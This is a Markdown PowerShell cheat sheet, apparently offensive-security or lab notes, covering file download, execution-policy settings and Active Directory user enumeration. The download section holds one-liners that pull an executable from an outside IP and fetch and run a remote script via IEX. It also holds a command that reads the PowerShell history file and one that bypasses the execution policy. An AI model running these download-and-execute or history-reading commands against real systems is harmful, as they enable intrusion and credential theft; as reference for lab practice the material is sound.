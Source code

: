 # PowerShell Cheat Sheet

## File Download & Execution

| Command | Description |
|---------|-------------|
| `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.13:8080/40564.exe','c:\root\Downloads\40564.exe')"` | Download file with PowerShell WebClient |
| `c:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX((New-Object Net.Webclient).downloadString('http://10.10.16.13:8000/Invoke-Power))` | Download and execute via IEX (Invoke-Expression) |
| `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` | Show PowerShell command history |

---

## Execution Policy

| Command | Description |
|---------|-------------|
| `Set-ExecutionPolicy RemoteSigned` | Set policy to allow local scripts, require signed for downloaded scripts |
| `Set-ExecutionPolicy RemoteSigned -Scope CurrentUser` | Same, but only for current user |
| `Get-ExecutionPolicy -Scope CurrentUser` | Show current execution policy |
| `Set-ExecutionPolicy Unrestricted -Scope CurrentUser` | Allow all scripts; prompts for internet scripts |
| `Set-ExecutionPolicy Unrestricted` | Same as above |
| `Get-ExecutionPolicy` | Show current policy |
| `powershell -noexit -ExecutionPolicy Bypass -File MyScript.ps1` | Run script bypassing execution policy, keep PS open |

**Execution Policy Modes:**
- Restricted → No scripts allowed  
- AllSigned → Only signed scripts  
- RemoteSigned → Local scripts allowed, downloaded must be signed  
- Unrestricted → Prompts for downloaded scripts, local always allowed  
- Bypass → No restrictions  

Reference:  
[MS Docs - Set-ExecutionPolicy](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy)

---

## AD and User Enumeration

| Command | Description |
|---------|-------------|
| `Get-ADUser` | Enumerate AD users (requires RSAT, AD machine) |
| `Get-WmiObject win32_useraccount \| Select domain,name,sid` | Enumerate users with SIDs (Registry: HKLM\...\ProfileList) |

---